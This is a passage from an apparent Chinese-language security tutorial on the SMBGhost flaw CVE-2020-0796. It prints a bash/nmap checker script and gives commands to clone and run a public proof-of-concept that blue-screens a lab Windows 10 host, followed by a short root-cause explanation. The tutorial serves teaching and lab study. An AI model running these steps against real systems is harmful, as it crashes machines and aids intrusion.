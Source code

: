 第一步，采用 scanner.py 或 bash 文件扫描该漏洞。这里采用另一种方法，参考资源：https://github.com/joaozietolie/CVE-2020-0796-Checker

*   上传文件至 Kali 系统，作者采用文件共享
    
*   chmod +x CVE-2020-0796-Checker.sh
    
*   bash CVE-2020-0796-Checker.sh -t 192.168.44.140
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icDspSU8FhkCgNV2UaLAKDCszmibdKicibicAofnick8NK3jgg182OQfuCOWrw/640?wx_fmt=png)

CVE-2020-0796-Checker.sh

```
#!/bin/bashNC='\033[0m'RED='\033[0;31m'GREEN='\033[0;32m'#Code by João Zietolie :)while getopts "t:" OPTION; do        case "${OPTION}" in         t) target="${OPTARG}";;        esacdone   if [[ "$target" > "0" ]]; then 	echo "Checking for SMB v3.11 in $target ..."	result=$(nmap -p445 --script smb-protocols -Pn -n $target  | grep -o 3.11) 	if [[ "$result" == '3.11' ]]; then                echo -e "$target - ${RED}FOUND 3.11 VERSION - POSSIBLY VULNERABLE TO CVE-2020-0796" ${NC}        else		echo -e "$target - ${GREEN}There is no SMB v3.11 - possibly not vulnerable (Port 445 can be filtered or closed)"  ${NC}	fielse	echo -e "${RED}USAGE: bash CVE-2020-0796-Checker.sh -t IP${NC}"fi
```

第二步，从 github 下载 POC 蓝屏攻击代码至 Kali 系统。

*   https://github.com/eerykitty/CVE-2020-0796-PoC
    
*   命令：git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icDPwLoCEYU5aJGGwicqxh9jK0CNofaic7yWa78rwWiclARvCeIMHBw7AXrQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icDfcE6kl3E53dQaTQktqSeQ0fmQ9n0ibc9nEjVOBj9IJWc58Z3oBaa8Dw/640?wx_fmt=png)

第三步，安装扩展包并实现 POC 蓝屏攻击。

*   pip install ntlm_auth
    
*   python CVE-2020-0796.py 192.168.44.140
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icDicVsuA4iatvrQfDmYdDRYZfTpvVarVYu9olqbERIhvIPeMq5ibeVjcrjA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icD42LSGS0J2e56pQAQDHK3JUicjCPjOIp1wez9I2YYC46ibZTuc8ic7ZWsg/640?wx_fmt=png)

此时，Win10 系统蓝屏重启，如下图所示。作者又有一个疑问，如何获取 Shell 而不蓝屏呢？

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMadPwxU4vRNpj3icddMU8icD7YVc1p0D2NSrLOKWyia32ibWxunQhhhPSAia9C1PQU9llx3movsxN8Oow/640?wx_fmt=png)

四. 漏洞原因分析
=========

根据安全研究人员分析，该漏洞是一个整数溢出，发生在 SMB 服务驱动 srv2.sys 的 Srv2DecompressData 函数中。经过研究，研究人员成功证明了 CVE-2020-0796 漏洞可以被用于本地权限提升。不过需要注意的是，由于 API 的依赖问题，这个 exploit 被限制于中等完整性级别（integrity level）。

> 漏洞成因推荐如下文章：
> 
> - 安全人员发布利用 CVE-2020-0796 实现提权限 PoC
> 
> - CVE-2020-0796 Windows SMBv3 LPE Exploit POC
> 
> - Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC
> 
> - CVE-2020-0796 本地利用简析 - goabout2
